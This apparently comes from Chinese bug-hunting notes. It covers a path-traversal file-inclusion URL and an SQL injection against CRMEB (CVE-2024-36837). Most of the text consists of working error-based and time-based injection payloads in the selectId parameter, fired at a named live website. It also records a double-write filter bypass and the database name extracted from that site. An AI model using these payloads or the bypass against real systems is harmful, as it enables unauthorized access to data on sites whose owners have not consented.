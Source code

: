 #### 文件包含

> /html/applicationCenter/forgetPassword.html/../../index.html

```bash

```



#### CVE-2024-36837 sql注入

> CRMEB SQL 注入漏洞(CVE-2024-36837)
>
> https://blog.csdn.net/qq_48368964/article/details/141157893

```bash
/api/products?limit=20&priceOrder=&salesOrder=&selectId=0
/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(666)))),0x7e),3550)+
```



```bash
https://zq.xfhanjie.cn/api/products?limit=20&priceOrder=&salesOrder=&selectId=0
https://zq.xfhanjie.cn/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,md5(666)))),0x7e),3550)+
https://zq.xfhanjie.cn/api/products?limit=20&priceOrder=&salesOrder=&selectId=GTID_SUBSET(CONCAT(0x7e,(SELECT+(ELT(3550=3550,sleep(3)))),0x7e),3550)+
```

![image-20241015094231000](https://image.201068.xyz/assets/src挖掘/image-20241015094231000.png)

##### md5(666)

![image-20241015094725797](https://image.201068.xyz/assets/src挖掘/image-20241015094725797.png)

回显包含666的md5值，漏洞存在。

可将md5(666)替换为`database()、user()、sleep()`等测试语句。

##### database()

![image-20241015095129359](https://image.201068.xyz/assets/src挖掘/image-20241015095129359.png)

database被过滤，双写绕过

###### 双写绕过

![image-20241015095049158](https://image.201068.xyz/assets/src挖掘/image-20241015095049158.png)

> zq_xfhanjie_cn

##### sleep()

![image-20241015095410962](https://image.201068.xyz/assets/src挖掘/image-20241015095410962.png)
